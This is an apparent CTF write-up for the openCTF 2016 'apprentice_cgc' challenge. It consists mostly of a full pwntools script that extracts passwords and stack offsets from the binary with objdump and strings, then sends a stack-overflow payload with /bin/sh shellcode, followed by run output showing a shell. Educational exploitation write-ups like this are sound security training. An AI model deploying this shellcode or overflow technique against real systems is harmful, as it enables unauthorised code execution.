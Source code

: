 ```yaml
---
layout: post
title: openCTF 2016 - apprentice_cgc
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 300
**Solves:** 
**Category:** Exploitation, CRS
**Description:** So, neophyte_cgc was pretty straightforward.
This isn't.
Server: 172.31.1.47:1624

> [apprentice_cgc]({{site.url}}/assets/apprentice_cgc)

Statically compiled, stripped binary this challenge was about Automatic Exploit Generation (AEG). The server sends us a binary with two different passwords on every run. We have to send the correct passwords in order to reach the vulnerable function.

![vuln]({{site.url}}/assets/screen-openctf-3.png)

The `vulnerable` function had a classic stack overflow with no canaries, NX disabled and ASLR disabled.

![vuln2]({{site.url}}/assets/screen-openctf-4.png)

The local stack size of the vulnerable function was also different on each run.

# Ghetto Solution

Solution steps:  

1. Connect to the server and get the binary
2. Drop the binary on disk and analyze it with objdump, storing the output in a variable
3. Since the 2 password strings were exactly 32 bytes each and lowercase alphanum chars I used strings to find them
4. Used the objdump output to find the size of the stack frame of the `vulnerable` function
5. Send the payload and get the flag

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys, re

# flag itoldyou__IT_WOULD_GET_W0rse_imnotangrybro

def filterPick(list,filter):
    return [ ( l, m.group(1) ) for l in list for m in (filter(l),) if m]


def exploit(r):
  if len(sys.argv) > 1:   # if remote get the binary and store on disk
    r.recvuntil("Apprentice CRS - (Cyber Reasoning System)\n")
    binary = r.recvuntil('Can you exploit me in under 10 seconds?\n')

    ofile = open('apprentice_cgc_drop', 'wb')
    ofile.write(binary)
    ofile.close()

  else:        # else use binary already on disk
    binary = bytearray(open('apprentice_cgc', 'r').read())
  
  entry = u32(binary[0x18:0x18+4])            # find entry point from
  log.info("Entry point: " + hex(entry))      # elf header

  # get output of objdump
  output = subprocess.Popen(["objdump", "-d", "-M", "intel", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  for line in range(len(output)):             # parse each line
    if hex(entry)[2:]+':' in output[line]:    # look for entry point
      for i in range(15):                     # get 15 lines down from entry point
        if 'call' in output[line+i]:          # get the line of entry point
          main = output[line+i-1].split(' ')[-1][2:]  # get the first argument (addr of main)
          log.info("Main at: " + main)        # main found

  main_output = []                            # store main disassembly here
  for line in range(len(output)):             # parse output
    if main+':' in output[line]:              # from main's address
      i = 0
      while 'ret' not in output[line+i]:      # until ret
        main_output.append(output[line+i])
        i += 1
      break

  calls = []                                  # store addr of all called funcs from main
  for line in range(len(main_output)):
    if 'call' in main_output[line]:
      calls.append(main_output[line].split(' ')[-1].strip())

  strings = subprocess.Popen(["strings", "-n 32", "-d", "apprentice_cgc_drop"], stdout=subprocess.PIPE).communicate()[0].split('\n')

  searchRegex = re.compile('(^[a-z0-9]{32}$)').search # regex to find the 2 passwds
  x = filterPick(strings,searchRegex)         # find the two passwords
  canaries = []

  canaries.append(x[0][0])
  canaries.append(x[-1][-1])
  print canaries                              # let me see the passwords

  r.sendline(canaries[0].strip())             # send the first password
  r.recvline()
  r.recvline()
  inBuffer = int(r.recvline().strip(), 16)    # Oh the binary sends us 
  log.info("Stack is at: " + hex(inBuffer))   # the addr of the stack :)

  for line in range(len(output)):
    if calls[-1][2:]+':' in output[line]:     # from the start of the vuln func's disassembly
      for i in range(5):                      # look 5 lines down
        if 'sub' in output[line+i]:           # if u see 'sub'
          offset = int(output[line+i].split(',')[-1].strip(), 16) # get size of stack frame
      

      for i in range(9, 15):                  # in vuln func 9 lines down
        if 'lea' in output[line+i]:           # look for local buffer
          vulnBuf = int( output[line+i].split('-')[-1].strip(']'), 16) # get distance between
                                                                      # stack frame and buffer

  offset = offset + (offset - vulnBuf)+3      # calc how much garbage to send

  sc = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
      "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

  r.send(canaries[1]+"\x00")

  payload = "\x90" * (offset - (len(sc)))
  payload += sc
  payload += p32(inBuffer-(offset/2)) * 100

  r.sendline(payload)

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/apprentice_cgc'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}


{% highlight text %}
➜  openCTF python ./apprentice_cgc_solution.py
[*] For remote: ./apprentice_cgc_solution.py HOST PORT
[+] Starting program '/vagrant/openCTF/apprentice_cgc_drop': Done
[22003]
[*] Paused (press any to continue)
[*] Entry point: 0x8048736
[*] Main at: 8048909
['0x8048760', '0x806ccf0', '0x8050c70', '0x8050c70', '0x804ed50', '0x8048280', '0x80488da', '0x804ed50', '0x8048280', '0x804889a']
['etvqwoqfrevvmesmuwtnzvqbbaozpxdt', 'apovsbykslqvuziibstoyjqmtjywfwjo']
[*] Stack is at: 0xffce268c
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$
{% endhighlight %}